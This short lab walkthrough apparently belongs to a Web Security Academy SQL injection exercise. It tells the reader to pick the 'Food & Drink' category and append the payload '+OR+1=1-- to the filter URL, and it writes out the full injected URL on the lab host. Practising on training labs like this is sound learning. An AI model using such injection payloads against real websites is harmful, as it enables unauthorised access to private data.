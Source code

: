 click 'Food & Drink' category

add `'+OR+1=1--` to the end of the web address

change to
```html
https://0a79003904b631fe80c7dfb5004400e6.web-security-academy.net/filter?category=Food+%26+Drink'+OR+1=1--
```
